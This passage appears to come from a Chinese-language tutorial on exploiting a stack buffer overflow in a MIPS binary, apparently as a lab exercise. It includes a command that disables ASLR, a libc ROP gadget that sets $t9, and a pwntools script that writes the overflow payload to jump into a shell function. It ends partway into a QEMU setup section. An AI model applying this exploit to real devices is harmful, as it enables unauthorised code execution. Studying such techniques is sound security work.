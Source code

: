 4.然后我们拿这个content.py生成的content运行，然后调试，可以看到我们已经成功的劫持了控制流。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t013afa71a4ad0d7d9d.png)

5.接下来，我们就想直接将dat_shell的地址直接写到上面，然后直接执行，我们尝试了一下，结果出现错误。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016e3c8e0ddb686c48.png)

可以看到是因为改变了寄存器`$gp`的值，这里引用大佬文章中的内容：

```
访问了非法内存，异常了。原因在于，在MIPS中，函数内部会通过$t9寄存器和$gp寄存器来找数据，地址等。同时在mips的手册内默认$t9的值为当前函数的开始地址，这样才能正常的索引。
```

所以，我们需要先用一个`rop_gadget`给`$t9`赋值，然后我们在`libc.so.0`中找到了一个gadget，如下所示：

```
.text:00006B20                 lw      $t9, arg_0($sp)
.text:00006B24                 jalr    $t9
```

如果我们想要使用这个gadget的话，我们必须先找到libc的基地址，我比较喜欢用gdb来调试，因为这个没有开启地址随机化，所以我们先关闭地址随机化。

```
sudo su
echo 0 &gt; /proc/sys/kernel/randomize_va_space
```

然后我们可以根据`vmmap`来得到libc的基地址`0x766e5000`，如下图所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t011c798d93ddc5dd5d.png)

6.最后，我们写一下生成content的python脚本：

```
from pwn import *
libc_base = 0x766e5000
gadget = 0x6b20
gadget_addr = libc_base + gadget
shell_addr = 0x400950
f=open("content","wb")
data = "a"*204
data+=p32(gadget_addr)
data+=p32(shell_addr)
f.write(data)
f.close()
```

### <a class="reference-link" name="qemu%E6%A8%A1%E6%8B%9F%E8%B0%83%E8%AF%95"></a>qemu模拟调试

1.先启动qemu，配置好网络环境，依次运行start.sh，net.sh（看上面介绍），在qemu里面运行net.sh，并且也要运行一下
